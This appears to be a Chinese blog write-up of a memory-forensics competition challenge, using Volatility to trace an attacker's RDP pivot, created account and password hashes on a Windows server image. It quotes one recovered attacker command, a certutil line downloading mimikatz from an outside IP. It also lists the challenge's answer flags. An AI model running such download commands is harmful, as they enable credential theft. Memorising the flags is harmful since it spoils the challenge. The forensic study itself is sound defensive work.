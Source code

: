 #  内存镜像分析实战：破解攻击者入侵路径，全程可复现！   
原创 夜风Sec  夜风Sec   2025-05-13 02:44  
  
关注公众号夜风Sec  
，持续分享各种工具和学习记录，共同进步:)  
  
**在公众号回复solar获取相关附件**  
## 题目信息  
>   
> 题目资源  
  
  
题目来源：第一届Solar应急响应比赛  
  
题目文件：SERVER-2008-20241220-162057  
>   
> 背景 & 题目  
  
1. 请找到rdp连接的跳板地址 --- flag格式 flag{1.1.1.1}  
  
1. 请找到攻击者下载黑客工具的IP地址 --- flag格式 flag{1.1.1.1}  
  
1. 攻击者获取的“FusionManager节点操作系统帐户（业务帐户）”的密码是什么 --- flag格式 flag{xxxx}  
  
1. 请找到攻击者创建的用户 --- flag格式 flag{xxxx}  
  
1. 请找到攻击者利用跳板rdp登录的时间 --- flag格式 flag{2024/01/01 00:00:00}  
  
1. 请找到攻击者创建的用户的密码哈希值 --- flag格式 flag{XXXX}  
  
## 解题过程  
### flag1  
  
**请找到rdp连接的跳板地址**  
>   
> volatility  
  
  
附件是raw原始文件，先通过volatility进行分析  
  
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64  
  
![mem00](https://mmbiz.qpic.cn/sz_mmbiz_png/7uLCX4hAYxESudufoRObOMroGwibRFEHTJNuBPFvN8Bn3MtRRTKSj69PxJyicB8lwExbFey4WgkW4VYlZ4zJCPicw/640?wx_fmt=png&from=appmsg "")  
  
mem00  
  
我们需要找到rdp(3389 Port)链接的相关信息，通过netscan命令查看网络链接情况  
  
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 netscan  
  
![mem01](https://mmbiz.qpic.cn/sz_mmbiz_png/7uLCX4hAYxESudufoRObOMroGwibRFEHT0PD9XhdL4ib31Lot4qaQ85JAlKbLohCq0CrxjXwb1YI4eqcDsEZLpiaQ/640?wx_fmt=png&from=appmsg "")  
  
mem01  
  
本地通过运行了svchost.exe建立了对3389端口的监听，远程IP 192.168.60.220:34121连接本地的3389端口  
```
flag{192.168.60.220}
```  
### flag2  
  
**请找到攻击者下载黑客工具的IP地址**  
  
这个肯定也要看网络链接，可以在上面的网络扫描的结果中一个一个尝试  
  
或者直接使用  
  
下载黑客工具 => 命令 ->  cmdcsan  
  
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 cmdscan  
  
![mem02](https://mmbiz.qpic.cn/sz_mmbiz_png/7uLCX4hAYxESudufoRObOMroGwibRFEHTSLpZias7v8M832yrdHl0xmzwTQlAl37yibY1FnzebnL0jwWZLYaQHPTQ/640?wx_fmt=png&from=appmsg "")  
  
mem02  
  
certutil -urlcache -split -f http://155.94.204.67:85/mimikatz.exe C:\Windows\Temp\mi.exe  
- certutil是Windows系统自带的，可用于远程下载文件  
  
```
flag{155.94.204.67}
```  
### flag3  
  
**攻击者获取的“FusionManager节点操作系统帐户（业务帐户）”的密码是什么**  
  
![mem02](https://mmbiz.qpic.cn/sz_mmbiz_png/7uLCX4hAYxESudufoRObOMroGwibRFEHTSLpZias7v8M832yrdHl0xmzwTQlAl37yibY1FnzebnL0jwWZLYaQHPTQ/640?wx_fmt=png&from=appmsg "")  
  
mem02  
  
看到这里面有一个命令type pass.txt  
 -> 查看pass.txt的内容 -> 这里多半就是密码  
  
所以就是找到文件偏移，然后导出文件进行查看  
  
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 filescan | findstr pass  
  
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007e4cedd0 --dump-dir=./  
- dumpfiles -> 导出  
  
- -Q：接文件偏移( 通过filescan得出的 )  
  
- --dump-dir：导出的目录  
  
![mem03](https://mmbiz.qpic.cn/sz_mmbiz_png/7uLCX4hAYxESudufoRObOMroGwibRFEHTX1ptPiayEiavVZO1VN6TkpY6n6VtbO3BQFZHdLZG9zesxGo8J9KtyVqA/640?wx_fmt=png&from=appmsg "")  
  
mem03  
  
![mem04](https://mmbiz.qpic.cn/sz_mmbiz_png/7uLCX4hAYxESudufoRObOMroGwibRFEHTjE0DxoNRCnNHxUUPLH8omNvia9g2M8Xc5ByfFfbZH9KlsENmiabKQ2iaQ/640?wx_fmt=png&from=appmsg "")  
  
mem04  
```
flag{GalaxManager_2012}
```  
### flag4  
  
**请找到攻击者创建的用户**  
>   
> 法1 - hashdump  
  
  
通过hashdump命令 导出本地所有用户的哈希值  
  
![mem05](https://mmbiz.qpic.cn/sz_mmbiz_png/7uLCX4hAYxESudufoRObOMroGwibRFEHTQ4IUpOv7iaf3XtibTuyC1afic788FT8yulx16jXibAOF57uwu2RCzJZbQw/640?wx_fmt=png&from=appmsg "")  
  
mem05  
>   
> 法2 - 导出security.evtx分析  
  
  
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 filescan | findstr Security  
  
![mem06](https://mmbiz.qpic.cn/sz_mmbiz_png/7uLCX4hAYxESudufoRObOMroGwibRFEHTkH0Yjmicf9HL161W770yLIiaUicolibU58ZIxibsQf14VnHaWOq6bugMO5g/640?wx_fmt=png&from=appmsg "")  
  
mem06  
  
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007e744ba0 --dump-dir=./  
  
修改后缀为evtx，打开，可能是导出的原因有些损坏( 无法直接筛选事件ID )  
  
手动查找4720的事件ID进行查看  
  
**4720: 用户账户已创建**  
  
![mem07](https://mmbiz.qpic.cn/sz_mmbiz_png/7uLCX4hAYxESudufoRObOMroGwibRFEHT7oREabdHdqJQPLgxfW0H8XI2pxvF5fr3jMMhhejiaSR1pwhS4To2ia0g/640?wx_fmt=png&from=appmsg "")  
  
mem07  
```
flag{ASP.NET}
```  
### flag5  
  
**请找到攻击者利用跳板rdp登录的时间**  
  
查找4624事件ID，一个一个排查就行  
  
![mem08](https://mmbiz.qpic.cn/sz_mmbiz_png/7uLCX4hAYxESudufoRObOMroGwibRFEHTDad47SzB8icK642enD7WjssZzfbBh3YUhLFQdsnN1hGaybCV5tib27Ug/640?wx_fmt=png&from=appmsg "")  
  
mem08  
```
flag{2024/12/21 00:15:34}
```  
### flag6  
  
**请找到攻击者创建的用户的密码哈希值**  
  
这个在之前得到的hashdump就出现过  
  
![mem05](https://mmbiz.qpic.cn/sz_mmbiz_png/7uLCX4hAYxESudufoRObOMroGwibRFEHTQ4IUpOv7iaf3XtibTuyC1afic788FT8yulx16jXibAOF57uwu2RCzJZbQw/640?wx_fmt=png&from=appmsg "")  
  
mem05  
```
flag{5ffe97489cbec1e08d0c6339ec39416d}
```  
## 相关资源  
  
[【应急响应】- 日志流量如何下手？](https://mp.weixin.qq.com/s?__biz=Mzk1Nzk3MjA5Ng==&mid=2247485348&idx=1&sn=52db408094ecaed1d998d6e09543a248&scene=21#wechat_redirect)  
  
  
[从勒索到溯源：一次完整的Windows+MSSQL安全取证记录](https://mp.weixin.qq.com/s?__biz=Mzk1Nzk3MjA5Ng==&mid=2247485497&idx=1&sn=68e9020d6cd188661cb7f10032ab9cb2&scene=21#wechat_redirect)  
  
  
  
